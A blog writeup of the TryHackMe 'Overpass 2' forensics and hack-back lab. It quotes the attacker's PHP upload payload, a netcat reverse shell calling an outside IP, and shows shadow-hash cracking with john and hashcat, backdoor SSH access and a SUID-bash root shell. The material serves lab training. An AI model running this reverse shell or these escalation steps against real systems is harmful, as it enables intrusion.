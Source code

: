 ```yaml
---
layout: writeup
type: writeup
image: images/writeups/thm/overpass-2/logo.png
title: Overpass 2 - TryHackMe
permalink: writeups/overpass-2
# All dates must be YYYY-MM-DD format!
date: 2021-04-20
labels:
  - TryHackMe
  - Forensics
  - Wireshark
summary: Overpass has been hacked! Can you analyse the attacker's actions and hack back in?
---
```


<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/overpass-2/header.png">
<script src="https://www.tryhackme.com/badge/192700"></script>

```
MACHINE = OVERPASS 2
TARGET = VARIABLE
OS = LINUX
DIFFICULTY = MEDIUM
```
## Forensics

I analyzed the pcap file using wireshark and found the web directory for the upload page at /development/upload.php and got the payload for the uploaded file 

```php
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

I then got the password used to privesc to the user james. The attacker used the GitHub project [ssh-backdoor](https://github.com/NinjaJc01/ssh-backdoor) to gain persistence

```
james:XXXXX
```

I found the contents from the /etc/shadow file and tried cracking the hashes using john and fasttrack wordlist

```
james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
```

```shell
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/2/forensics]
└─# john --wordlist=/opt/wordlists/fasttrack.txt hashes
Using default input encoding: UTF-8
Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
XXXXX         (bee)
XXXXX          (szymex)
XXXXX         (muirland)
XXXXX        (paradox)
4g 0:00:00:00 DONE (2021-04-17 15:18) 14.81g/s 822.2p/s 4111c/s 4111C/s Spring2017..starwars
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Research

Time to analyse the code for the ssh-backdoor. I downloaded the code from the GitHub repo and went through the main.go code and got the default hash and the salt

```
Hash:
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3

Salt:
1c362db832f3f864c8c2fe05f2002a05
```

Going through the pcap file on TCP Stream 3 I found the “backdoor -a” which from the source code outputs the backdoor hash

```shell
james@overpass-production:~/ssh-backdoor$ ./backdoor -a 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed

```

I used hashcat on my windows machine to crack the salted hash and got the password

```
Dictionary cache hit:
* Filename..: .\wordlists\rockyou.txt
* Passwords.: 14344384
* Bytes.....: 139921497
* Keyspace..: 14344384

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:XXXXX

Session..........: hashcat
Status...........: Cracked
Hash.Name........: sha512($pass.$salt)
Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
```

## Attack

Starting with an nmap scan

```shell
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/2/attack]
└─# nmap -T4 -A 10.10.139.211 -oN nmap
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-17 16:00 WAT
Nmap scan report for 10.10.139.211
Host is up (0.21s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: LOL Hacked
2222/tcp open  ssh     OpenSSH 8.2p1 Debian 4 (protocol 2.0)
| ssh-hostkey:
|_  2048 a2:a6:d2:18:79:e3:b0:20:a2:4f:aa:b6:ac:2e:6b:f2 (RSA)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=4/17%OT=22%CT=1%CU=30256%PV=Y%DS=2%DC=T%G=Y%TM=607AF87
OS:A%P=x86_64-pc-linux-gnu)SEQ(SP=106%GCD=1%ISR=10A%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M505ST11NW6%O2=M505ST11NW6%O3=M505NNT11NW6%O4=M505ST11NW6%O5=M505ST1
OS:1NW6%O6=M505ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M505NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 554/tcp)
HOP RTT       ADDRESS
1   216.49 ms 10.8.0.1
2   216.41 ms 10.10.139.211

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 78.70 seconds
```

Going to the webpage I get the message from the hacker

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/overpass-2/1.png">

I tried logging in via ssh as the user james and with various passwords, the password that I cracked with haschat got me in but only on port 2222

```shell
┌──(root💀Toyin)-[~/infosec/thm/overpass-series/2/attack]
└─# ssh -p 2222 james@overpass.thm
james@overpass.thm's password:
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

james@overpass-production:/home/james/ssh-backdoor$
james@overpass-production:/home/james$ cat user.txt
thm{d1...67}
```

The attacker left file named .suid_bash which had the suid bit set and was owned by root, executing the file with the correct flag gave a shell as root

```shell
james@overpass-production:/home/james$ ./.suid_bash  -p
.suid_bash-4.4# whoami
root
```